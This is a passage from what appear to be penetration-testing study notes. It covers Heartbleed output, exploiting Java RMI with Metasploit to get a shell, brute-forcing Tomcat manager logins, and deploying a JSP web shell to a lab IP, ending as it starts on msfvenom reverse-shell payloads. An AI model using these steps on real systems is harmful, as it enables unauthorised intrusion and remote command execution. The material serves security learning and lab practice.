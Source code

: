 * We can run the "strings" cmd against the .bin file to see if we were able to leak anything. `strings 202345445_default_192.168.0.100_openssl.heartbleed.bin` - output all the strings from the file.

### <mark style="color:red;">Java RMI Registry (1099)</mark>

`nmap -sT <ip> -p1099 -sV` - check for GNU Classpath Registry fingerprint. We can us the metasploit module to exploit it.

{% code overflow="wrap" lineNumbers="true" %}
```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS
set SRVPORT # if you are running another service on 8080.
set SSL true # for AV/IDS evasion, not necessary.
run -j # we get a shell.
```
{% endcode %}

### <mark style="color:red;">Java Deserialization</mark>

Jsva Deserialization vulns apperar to exist in many various java based apps eg; Jboss, WebLogic, WebSphere and Jenkins etc.

* Serialization: is a process which allows for apps to convert data into a binary format, which is suitable for saving to disk.

### <mark style="color:red;">Apache Tomcat (8180)</mark>

A widely used, free and open source FOSS web server primarily for Java-based web apps. The Tomcat Manager is an area of the web app that allows admins to view settings for internal Tomcat configs. We can use Metasploit to bruteforce the logins.

{% code overflow="wrap" lineNumbers="true" %}
```bash
msf> use auxiliary/scanner/http/tomcat_mgr_login
msf> set RHOSTS, RPORT
msf> run
```
{% endcode %}

We're specifically interested in the "jsp" files. There are imbuilt java apps in kali,&#x20;

just do `locate jsp` and you should get the location under "/usr/share/laudanum/jsp". We can use the already precompiled "war.cmd" java app there. lets upload into the "http://192.168.0.178:8180/manager/html" dir through the browser.&#x20;

Once we click the deploy button and confirm the app is available in the upper section of the manager interface. Now we navigate to load the app, `http://192.168.0.178:8180/cmd/cmd.jsp` - and we can execute cmds on the browser.

**From here, there are many ways we can get reverse shell from the JSP Shell interface:**

Using msfvenom&#x20;

`msfvenom --list payloads| grep jsp` - view the available payloads for JSP files.&#x20;
